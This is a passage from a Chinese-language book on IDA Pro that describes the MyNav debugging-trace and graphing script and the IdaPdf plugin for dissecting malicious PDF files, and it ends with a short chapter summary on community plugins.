虽然严格来说不是一个插件，但 Joxean Koret 的 Python 脚本，被称为*MyNav*，确实可以算作一个有用的 IDA 扩展，其有用性足以使 MyNav 在 2010 年 Hex-Rays 插件编写比赛中获得第一名.^([213]) 在加载二进制文件并完成初始自动分析后，应启动*mynav.py*脚本。启动后，MyNav 将为 IDA 的 Edit ▸ Plugins 菜单添加 20 个新的菜单选项，此时您就可以利用许多新功能了。

| **名称** | MyNav |
| --- | --- |
| **作者** | Joxean Koret |
| **分发** | Python 源代码 |
| **价格** | 免费 |
| **描述** | 调试跟踪和代码覆盖率工具 |
| **信息** | [`code.google.com/p/mynav/`](http://code.google.com/p/mynav/) |

MyNav 增加的功能包括一个受 Zynamics 的 BinNavi 启发的函数级（而非基本块级）图形浏览器，以及显示任何两个函数之间代码路径等额外的绘图功能，还有许多旨在增强 IDA 调试能力的功能。

对于调试，MyNav 记录调试会话的信息，并允许您使用一个调试会话的结果作为后续会话的过滤器。在任意调试会话之后，MyNav 会显示一个图表，仅突出显示会话期间执行的那些函数。利用 MyNav 提供的功能，可以快速缩小负责程序中特定操作的函数集。例如，如果您对负责启动网络连接并下载某些内容的函数感兴趣，您可能创建一个不启动网络连接的会话，然后进行第二个会话以创建网络连接。通过排除第一次调试会话期间执行的所有函数，生成的图表将仅包含负责启动网络连接的函数。如果您正在尝试描述具有非常大的二进制文件的函数，这个功能非常有用。

关于 MyNav 功能的全面讨论，请参阅 Joxean 的博客，^([214])，在那里您可以找到一些视频教程，展示了 MyNav 的一些功能。

* * *

^([213]) 请参阅 [`www.hex-rays.com/contest2010/#mynav`](http://www.hex-rays.com/contest2010/#mynav)。

^([214]) 请参阅 [`www.joxeankoret.com/blog/2010/05/02/mynav-a-python-plugin-for-ida-pro/`](http://www.joxeankoret.com/blog/2010/05/02/mynav-a-python-plugin-for-ida-pro/)。

# IdaPdf

基于文档的恶意软件变得越来越普遍。恶意 PDF 文件是设计用来利用文档查看软件漏洞的文档文件的一个例子。分析恶意 PDF 文件（或任何文档文件）需要你了解你正在分析文件的结构。在分解此类文件的结构的分析中，你的目标通常是发现任何可能被成功利用以损害查看该文档的计算机的嵌入式代码。现有的少数 PDF 分析工具主要针对命令行用户，目标是简化可能最终被加载到 IDA 中进行进一步分析的信息提取。

| **名称** | IdaPdf |
| --- | --- |
| **作者** | Chris Eagle |
| **分发** | C++源代码 |
| **价格** | 免费 |
| **描述** | 用于分解和导航 PDF 文件的 PDF 加载器和插件 |
| **信息** | [`www.idabook.com/idapdf/`](http://www.idabook.com/idapdf/) |

IdaPdf 由 IDA 加载模块和 IDA 插件模块组成，每个模块都旨在简化 PDF 文件的分析。IdaPdf 的加载组件识别 PDF 文件并将它们加载到新的 IDA 数据库中。加载组件负责将 PDF 分解为其各个组件。在加载过程中，加载组件会尽力提取和过滤所有 PDF 流对象。由于加载模块在加载过程完成后会卸载，因此需要一个第二个组件，即 IdaPdf 插件，以提供超出初始加载的 PDF 分析功能。插件模块在识别到已加载 PDF 文件后，会列出文件中包含的所有 PDF 对象，并打开一个新标签窗口，其中包含 PDF 中每个对象的列表。以下列表是 PDF 对象窗口中包含的信息类型的示例。

```
Num  Location  Type         Data Offs  Data size
    Filters         Filtered stream  Filtered size  Ascii
17   000e20fe  Stream       000e2107      313       /FlateDecode
    000f4080             210        No
35   00000010  Dictionary   00000019       66
                                                       Yes
36   000002a3  Dictionary   000002ac      122
                                                       Yes
37   0000032e  Stream       00000337      470       [/FlateDecode]
  000f4170             1367       Yes
```

列表中显示了对象的编号以及对象的位置、对象的数据、必须应用于流对象的任何过滤器，以及指向提取的、未过滤数据的指针。上下文相关菜单选项允许轻松导航以查看对象数据或任何提取的过滤数据。通过上下文相关菜单选项，还可以提供提取对象数据（无论是原始的还是过滤的）的机会。Ascii 列指示插件对其最佳判断，即对象在其原始或过滤版本中是否仅包含 ASCII 数据。

当启动 IdaPdf 时，通过在“编辑”▸“其他”下添加两个新的菜单选项，暴露了 IdaPdf 实现的最后一些功能。这些菜单选项允许你在数据库中突出显示一块数据，然后要求插件对数据进行 Base64 解码或取消转义^([215))，结果将被复制到 IDA 中的新部分。这种未编码的数据通常会变成 PDF 中包含的恶意有效载荷。由于插件将此数据提取到新的 IDA 段中，因此导航到提取的数据并要求 IDA 反汇编其中的一部分或全部是非常直接的。

* * *

^([215)) 插件实现了 JavaScript 取消转义函数。

# 摘要

每当你发现自己希望 IDA 能够执行某些任务时，你应该花点时间想想是否其他人可能也有同样的愿望，更进一步，是否有人已经采取了措施来实现缺失的功能。许多 IDA 插件正是这种努力的结果。绝大多数公开可用的插件都很短小精悍，旨在解决特定问题。除了作为解决你的逆向工程问题的潜在解决方案外，那些源代码可用的插件还可以作为 IDA SDK 有趣用途的有价值参考。
